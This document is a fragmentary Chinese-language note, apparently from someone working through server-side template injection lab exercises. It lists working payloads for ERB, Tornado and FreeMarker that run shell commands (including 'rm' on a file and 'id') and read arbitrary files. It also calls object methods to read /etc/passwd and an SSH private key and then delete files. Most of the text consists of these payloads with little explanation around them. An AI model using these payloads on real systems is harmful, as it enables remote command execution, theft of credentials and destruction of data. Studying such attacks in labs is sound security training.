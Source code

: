 user.setAvatar('/etc/passwd','image/jpg')

3. 方法公开，利用其执行文件读取，读取核心PHP文件

user.setAvatar('/home/carlos/User.php','image/jpg')

4. 审计PHP文件，发现存在删除函数，利用该函数执行文件删除

user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')

user.gdprDelete()



**各个模版引擎的命令执行方式**

1. **ERB  Ruby**

  `<%= system("rm /home/carlos/morale.txt") %>`

读取文件

<%= Dir.entries('/') %> <%= File.open('/example/arbitrary-file').read %>

2. **Tornado python**

{% import os%}

{{os.system('echo hello')}}



3. **freemarker java** 

<font color=red>利用网上的官方文档，寻找其安全问题</font>

渗透过程：已知表达式 ${hello.good}

1. 输入为未定义变量，观察其报错，发现模版引擎是freemarker
2. 去官网上在F&A查询安全问题，发现?new()可以新建一个类，可能会有安全风险，并给出实现TemplateModel接口的class才可以被创建
3. (一开始在javadoc找不到，后面chatGPT建议我用谷歌，谷歌又导向了官网)官网查找这个类，并找到所有实现这个TM 接口的相关类，发现一个Excute类，猜测是命令执行
4. 查看Excute类，查看这个类在模版引擎中的使用方法
5. 初始化这个类并使用

```js
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
${"freemarker.template.utility.Execute"?new()("id")}
```

6. 文件读取  <font color="red">利用模版引擎自带的函数构成工具链</font>

   

```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(",")}
附上：int转ASCII C++代码
char p[50]={97,97,97,121,121,48,52,112,50,105,112,122,54,113,109,99,99,98,49,108};
cout<<p;
```

4. **Handlebars  Javascript** 

谷歌相关的，可利用的漏洞

